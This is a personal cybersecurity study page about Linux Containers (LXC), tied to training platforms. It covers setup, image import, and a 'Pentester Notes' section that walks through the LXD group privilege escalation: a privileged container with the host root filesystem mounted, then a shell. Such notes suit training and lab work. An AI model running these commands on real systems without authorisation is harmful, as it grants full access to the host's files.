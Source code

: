 # Linux Containers (LXC)

[![linuxfundamentals](../../../../cybersecurity/_badges/htb/linuxfundamentals.svg)](https://academy.hackthebox.com/course/preview/linux-fundamentals)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxsystemhardening](../../../../cybersecurity/_badges/thmp/linuxsystemhardening.svg)](https://tryhackme.com/room/linuxsystemhardening)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

[Linux Containers](https://linuxcontainers.org/) (LXC) is a Linux-only virtualization method to run multiple Linux systems using the host Linux kernel.

[Docker](../docker/index.md) was first built over LXC. It provides additional features and a simplified interface. They share the notion of 'image' and 'container'.

LXC can only be used on Linux hosts. Users part of the `lxd` group can call any commands without sudo. 

```shell!
$ lxd init
$ lxc image list # list downloaded images
```

If you have internet access, you can download an image:

```shell!
$ lxc launch ubuntu:22.04 container_name
```
</div><div>

Alternatively, you can import an image from a file. You can build an alpine image <small>(~3Mb)</small> using [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) <small>(0.2k ⭐, 2021 🪦)</small>.

```shell!
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Transfer the generated tar.gz onto the target and use:

```ps
$ lxc image import xxx.tar.gz --alias image_name
```
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### LXD Group Privilege Escalation

[![linuxprivilegeescalation](../../../../cybersecurity/_badges/hacktricks/linux_hardening/privilege_escalation/interesting_groups_linux_pe/lxd_privilege_escalation.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)
[![gamingserver](../../../../cybersecurity/_badges/thm-p/gamingserver.svg)](https://tryhackme.com/room/gamingserver)
[![allinonemj](../../../../cybersecurity/_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![teamcw](../../../../cybersecurity/_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)

A member of the LXD group can be leveraged for [privilege escalation](/cybersecurity/red-team/s4.privesc/index.md). You will mount the folder `/` within the container inside `/mnt/hostfs/` allowing you to access any file or edit any file.

* `image_name` is the name of the image you want to use
* `container_name` is a random name, such as `pwned`
* `device_name` doesn't matter, you can use `pwned` too

```shell!
host$ lxc init image_name container_name -c security.privileged=true
host$ lxc config device add container_name device_name disk source=/ path=/mnt/hostfs recursive=true
host$ lxc start container_name
host$ lxc exec container_name /bin/sh
container$ cd /mnt/hostfs/
```
</div><div>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ sudo apt-get install lxc lxc-utils -y
$ sudo lxc-create -n xxx -t yyy
$ lxc-ls
$ lxc-start/stop/restart -n xxx
$ lxc-config -n xxx -s storage/network/security
$ lxc-attach -n xxx [-f /path/to/share]
```
</div><div>
</div></div>